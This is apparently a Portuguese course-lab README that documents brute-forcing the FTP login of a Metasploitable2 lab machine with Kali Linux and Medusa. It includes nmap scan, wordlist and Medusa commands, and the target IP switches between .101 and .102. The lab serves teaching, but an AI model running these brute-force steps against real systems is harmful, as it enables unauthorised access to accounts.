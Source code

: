 # Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux.

## Visão geral
Desafio do curso de Cibersegurança 2025 da Santander com parceria DIO, com o intuito de práticar e simular ataques de força bruta e criação de wordlists em um ambiente controlado, utilizando os sistemas Kali Linux e a ferramenta Medusa para acessar o Metasploitable2 e DVWA.

---

## Verificação de ip
No Metasploitable2 que será utilizado como a máquina alvo iremos verificar o ip com o comando "ip a".
<img width="644" height="239" alt="image" src="https://github.com/user-attachments/assets/3b6471e9-e284-4381-8b16-6ff12a7dab3c" />
Obtivemos o ip “192.168.56.101” da máquina alvo.
Agora que conseguimos o ip da máquina alvo, será feito o teste de conectividade para verificar se as máquinas estão na mesma rede, com o comando.
ping -c 3 192.168.56.101
<img width="613" height="196" alt="image" src="https://github.com/user-attachments/assets/1b8b87c6-680a-4cd2-9c37-1d971ce055c2" />

---

##Verificação de portas abertas
Com as máqinas conectadas na mesma rede, iremos fazer a verificação de portas abertas da máquina alvo, com o comando.
nmap -sV -p 21,22,80,445,139 192.168.56.102
<img width="886" height="312" alt="image" src="https://github.com/user-attachments/assets/16846d38-2532-4d44-9f17-34b6a54dabe7" />
A porta que iremos atacar será a 21/tcp do serviço ftp.

---

##Criando listas de usuários e senhas + ataque com a Medusa
Com os seguintes comandos iremos criar os usuários e senhas para realizar o ataque com a Medusa.

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

Lista de usuários e senhas criadas, agora será feito o ataque na máquina alvo com o seguinte comando.
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
<img width="886" height="378" alt="image" src="https://github.com/user-attachments/assets/eb510397-cee6-46e3-bc15-321fc51bae8b" />
Senha e usuário capturadas com sucesso.
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

---

##Realizando o ataque
Com os dados da senha e usuário capturados é a hora de realizar o ataque a máquina alvo através do serviço ftp, com o comando.
ftp 192.168.56.101
<img width="495" height="292" alt="image" src="https://github.com/user-attachments/assets/c5c0a67b-84d7-4ac2-83fd-e282de270355" />
Máquina alvo acessada com sucesso.

---

